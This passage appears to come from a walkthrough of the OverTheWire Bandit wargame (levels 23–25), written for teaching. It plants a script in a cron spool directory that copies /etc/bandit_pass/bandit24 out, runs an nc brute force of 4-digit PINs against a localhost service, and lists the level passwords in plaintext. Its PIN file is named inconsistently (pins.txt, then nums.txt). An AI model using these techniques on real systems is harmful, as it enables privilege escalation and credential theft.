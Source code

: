 `cat /usr/bin/cronjob_bandit24.sh`

```
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
  if [ "$i" != "." -a "$i" != ".." ];
  then
    echo "Handling $i"
    timeout -s 9 60 ./$i
    rm -f ./$i
  fi
done
```

So it's doing exactly what the problem description said. It's running every 
file in `/var/spool/bandit24` and then deleting them. So maybe we can slip our 
own bash script in there for it to run. We'll work out of *tmp* directory so that 
we can maintain a copy of our script.

```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/jakehelman3/bandit24
```

`cp /tmp/jakehelman3/a.sh /var/spool/bandit24`  

After making sure our *tmp* directory had the correct permissions set to allow *bandit24* to 
write a file to it and waiting for the cronjob to run.

`cat /tmp/jakehelman3/bandit24`

Password for *bandit24*: **UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ**

## Bandit 24

**user:** *bandit24*  
**pass:** *UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ*

So we need to brute force this thing...

Let's generate all the pin codes and dump them in a file.

`for i in {0000..9999};do echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i";done > pins.txt`

`nc localhost 30002 < nums.txt | grep -v Wrong`

Password for *bandit25*: **uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG**

## Bandit 25

**user:** *bandit25*  
**pass:** *uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG*
